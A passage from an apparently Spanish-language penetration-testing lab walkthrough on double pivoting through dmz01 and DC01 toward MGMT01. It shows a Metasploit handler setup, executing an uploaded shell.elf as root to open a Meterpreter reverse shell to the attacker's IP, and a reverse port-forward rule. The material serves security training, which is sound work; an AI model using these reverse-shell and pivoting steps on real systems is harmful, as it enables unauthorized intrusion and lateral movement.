 Ahora hay algunas formas de hacer esta siguiente parte, tomaremos la ruta larga para poder finalmente hacer **SSH** directamente al host `172.16.9.25` desde nuestro host de ataque, realizando un doble pivote un tanto alucinante en el proceso. Esto es lo que estamos tratando de lograr, comenzando desde nuestro host de ataque y pivotando a través de los hosts **dmz01** y **DC01** para poder hacer **SSH** directamente en el host **MGMT01** a dos saltos de distancia directamente desde nuestro host de ataque.

`Attack host` --> `dmz01` --> `DC01` --> `MGMT01`

Necesitaremos establecer una **reverse shell** desde la caja `dmz01` de regreso a nuestro host de ataque. Podemos hacer esto de la misma manera que hicimos en la sección `Internal Information Gathering`, creando un payload **ELF**, subiéndolo al objetivo y ejecutándolo para capturar una **shell**. Comience creando el payload **ELF** y subiéndolo de nuevo al host `dmz01` a través de **SCP** si lo eliminó.

A continuación, configure el **Metasploit exploit/multi/handler**.

```r
[msf](Jobs:0 Agents:0) exploit(multi/handler) >> use exploit/multi/handler
[*] Using configured payload generic/shell_reverse_tcp
[msf](Jobs:0 Agents:0) exploit(multi/handler) >> set payload linux/x86/meterpreter/reverse_tcp
payload => linux/x86/meterpreter/reverse_tcp
[msf](Jobs:0 Agents:0) exploit(multi/handler) >> set lhost 10.10.14.15 
lhost => 10.10.14.15
[msf](Jobs:0 Agents:0) exploit(multi/handler) >> set LPORT 443
LPORT => 443
[msf](Jobs:0 Agents:0) exploit(multi/handler) >> exploit

[*] Started reverse TCP handler on 10.10.14.15:443
```

Nuevamente, ejecute el archivo `shell.elf` en el sistema objetivo:

```r

root@dmz01:/tmp# chmod +x shell.elf 
root@dmz01:/tmp# ./shell.elf 
```

Capture la **Meterpreter shell** usando el **multi/handler**.

```r
[msf](Jobs:0 Agents:0) exploit(multi/handler) >> exploit

[*] Started reverse TCP handler on 10.10.14.15:443 
[*] Sending stage (989032 bytes) to 10.129.203.111
[*] Meterpreter session 1 opened (10.10.14.15:443 -> 10.129.203.111:58462 ) at 2022-06-21 21:28:43 -0400

(Meterpreter 1)(/tmp) > getuid
Server username: root
```

Luego, configure una regla de reenvío de puerto local para reenviar todo el tráfico destinado al puerto `1234` en `dmz01` al puerto `8443` en nuestro host de ataque.

```r
(Meterpreter 1)(/root) > portfwd add -R -l 8443 -p 1234 -L 10.10.14.15
[*] Reverse TCP relay created: (remote) :1234 -> (local) [::]:1234
```
